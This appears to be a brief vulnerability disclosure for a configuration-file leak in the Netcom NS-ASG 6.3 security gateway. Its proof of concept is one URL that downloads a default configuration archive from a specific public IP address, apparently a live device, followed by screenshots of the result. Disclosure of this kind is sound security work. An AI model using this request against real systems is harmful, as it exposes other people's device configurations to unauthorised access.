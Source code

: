 There is a file leak in the website source code of the Netcom NS-ASG application security gateway

official website:https://www.netentsec.com/

version:NS-ASG 6.3

See the login page. 


<img width="863" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/10498f75-3c5e-4d40-be60-e7d8eef1ef6e">

Construct the poc as follows

https://61.153.74.10/configsave/manufacture-default.tar.gz

<img width="610" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/5d05ed6e-1b16-4e93-8671-8dbd76b65ab0">

<img width="615" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/87d7ea57-bcff-42e0-871a-0b7658b548a7">

<img width="471" alt="image" src="https://github.com/Wsecpro/cve1/assets/88637669/abaf0beb-03e3-442d-919c-e4b014f181ae">





